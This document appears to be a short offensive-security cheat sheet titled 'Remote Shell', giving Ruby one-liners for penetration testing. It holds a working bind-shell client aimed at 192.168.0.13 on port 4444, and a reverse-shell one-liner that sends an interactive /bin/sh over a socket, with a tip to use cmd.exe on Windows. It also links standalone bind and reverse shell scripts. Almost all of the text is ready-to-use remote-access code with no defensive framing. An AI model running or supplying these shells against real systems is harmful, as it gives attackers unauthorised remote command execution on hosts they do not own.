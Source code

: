 # Remote Shell

> **Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("192.168.0.13",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```

## Reverse shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.open("0.0.0.0",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

## Bind and Reverse shell
This is an awesome implementation for standalone  [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by [Hood3dRob1n](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells) on github . The bind shell requires authentication while reverse is not.

